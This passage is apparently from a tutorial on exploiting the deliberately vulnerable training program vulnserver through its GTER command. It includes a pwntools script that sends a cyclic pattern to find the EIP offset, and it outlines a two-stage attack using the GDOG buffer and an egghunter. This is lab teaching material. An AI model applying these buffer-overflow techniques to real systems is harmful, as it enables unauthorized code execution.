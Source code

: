 Sending this payload to `vulnserver` makes the program crash.

![](https://cdn-images-1.medium.com/max/800/1*NasfarM_dhEYqdSJtMpFnQ.png){: .align-center}

Upon checking the registers, it seems that we can now control the instruction pointer.

![](https://cdn-images-1.medium.com/max/800/1*qHhGo6cae1kEMb1BypqnEw.png){: .align-center}

Let’s fuzz this program to get the offset we need to control EIP.

![](https://cdn-images-1.medium.com/max/800/1*gDFuPMJKFBa30L68Ok7FQg.png){: .align-center}

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

payload = ""  
payload += "GTER "  
payload += "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"

r.sendline(payload)  
r.close()
```

Sending this payload gives us the unique pattern that has overwritten the instruction pointer.

![](https://cdn-images-1.medium.com/max/800/1*H4lNTrQC3u1AWTJN-11dFw.png){: .align-center}

![](https://cdn-images-1.medium.com/max/800/1*-zNzQPP_DZt1kaozAH9lKQ.png){: .align-center}

We can now control the instruction pointer with `151 bytes` of buffer.

Now, our issue here is that we only have `180 bytes` of space for our payload, and our shellcode have a length of `300` to `400` on average. We need to do a trick for sending our shellcode on the program, and at the same time jumping into it.

Upon checking again the source code, I have seen some unexploitable commands that can be used to inject our shellcode.

![](https://cdn-images-1.medium.com/max/800/1*6qtvwH4DN5iQ4950rwUicw.png){: .align-center}

GDOG command stores `1024 bytes` of our input to `GdogBuf`. Given this, we need to have a 2-stage payload to make our exploit work.

```
- Stage 1 — injecting our payload using GDOG
- Stage 2 — jumping to shellcode using GTER vulnerability
```

Since we can say that using the stage 1 payload, our shellcode can be located inside the program. Given this, we can use an `egghunter` to locate our injected shellcode.
